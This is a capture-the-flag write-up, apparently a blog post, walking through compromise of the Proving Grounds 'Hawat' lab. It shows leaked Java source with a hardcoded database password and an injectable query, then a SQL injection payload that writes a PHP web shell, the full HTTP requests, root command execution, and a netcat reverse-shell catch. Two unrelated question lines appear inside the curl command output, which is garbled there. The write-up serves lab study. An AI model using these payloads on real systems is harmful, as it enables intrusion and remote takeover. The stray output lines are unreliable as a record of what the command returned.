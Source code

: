 ```yaml
---
title: "Proving grounds Play: Hawat"
layout: post
date: 2023-10-16 02:00
categories: writeup
---
```


Proving grounds Practice - Hawat CTF writeup.

## Nmap

```text
22/tcp    open  ssh     OpenSSH 8.4 (protocol 2.0)
17445/tcp open  unknown
30455/tcp open  http    nginx 1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
```

## 17445/tcp open  unknown

http://192.168.156.147:17445/

![img](/assets/images/CTF/Proving_Grounds/Hawat/web1.png)

Register an user account on the portal.

## 30455/tcp open  http    nginx 1.18.0

http://192.168.156.147:30455/

http://192.168.156.147:30455/phpinfo.php

**Required UInfo**

```text
Document root = /srv/http
server port = 30455
server user = root
```

## 50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)

### Directory discovery

```sh
[11:31:15] 301 -  243B  - /cloud  ->  http://192.168.156.147:50080/cloud/
```

![img](/assets/images/CTF/Proving_Grounds/Hawat/web2.png)

Next cloud login page, use credentials `admin:admin` to login.

![img](/assets/images/CTF/Proving_Grounds/Hawat/web3.png)

Download and extract the `issuetracker.zip` file in the local machine. Open the extracted file in a text editor to review the code.

Upon reviewing the code, found that the application is vulnerable to sql injection vulnerability.

```java
	@GetMapping("/issue/checkByPriority")
	public String checkByPriority(@RequestParam("priority") String priority, Model model) {
		// 
		// Custom code, need to integrate to the JPA
		//
	    Properties connectionProps = new Properties();
	    connectionProps.put("user", "issue_user");
	    connectionProps.put("password", "ManagementInsideOld797");
        try {
			conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
		    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";           //variable priority is not sanitized or no input validation is implemented
            System.out.println(query);
		    Statement stmt = conn.createStatement();
		    stmt.executeQuery(query);

        } catch (SQLException e1) {
			// TODO Auto-generated catch block
			e1.printStackTrace();
		}
		
        // TODO: Return the list of the issues with the correct priority
		List<Issue> issues = service.GetAll();
		model.addAttribute("issuesList", issues);
		return "issue_index";
        
	}
```

On the above code the variable `priority` is not properly validated against the injection vulnerabilities and by using `UNION` based injection we can achieve remote code execution.

## Foothold

Login to the application running on `http://192.168.217.147:17445/login` with the registered credentials. Construct a POST request as per the code `/issue/checkByPriority?priority=Normal`.

> Note: GET method is not supported for the endpoint.

```http
POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5)+--+ HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

SQL injection is confirmed.

**RCE Payload**

```text
Normal' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/srv/http/rce.php" -- 
```

URL encode the payload and send it to the server.

```http
POST /issue/checkByPriority?priority=Normal%27%20UNION%20SELECT%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%22%2Fsrv%2Fhttp%2Frce.php%22%20--%20 HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

Navigate to the `http://192.168.217.147:30455/rce.php?cmd=id` location to perform code execution.

```sh
naveenj@hackerspace:|22:03|~/proving_grounds/Hawat$ curl 'http://192.168.217.147:30455/rce.php?cmd=id'
Windows 10 keeps telling me to update, why?
Is allowed to use torrent sites in the corporate network?
uid=0(root) gid=0(root) groups=0(root)
```

Create PHP reverse shell file and use port as 443 to get reverse shell. Download the php file to the server and place it on `/srv/http` folder to access it publicly.

> Note: The server only allows port 443 so run python server on the same to download the reverse shell code to the attacking machine.

```sh
naveenj@hackerspace:|22:09|~/proving_grounds/Hawat$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.186] from (UNKNOWN) [192.168.217.147] 55270
Linux hawat 5.10.14-arch1-1 #1 SMP PREEMPT Sun, 07 Feb 2021 22:42:17 +0000 x86_64 GNU/Linux
 02:11:10 up 28 min,  0 users,  load average: 0.06, 0.05, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: cannot set terminal process group (575): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```

**Foothold Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).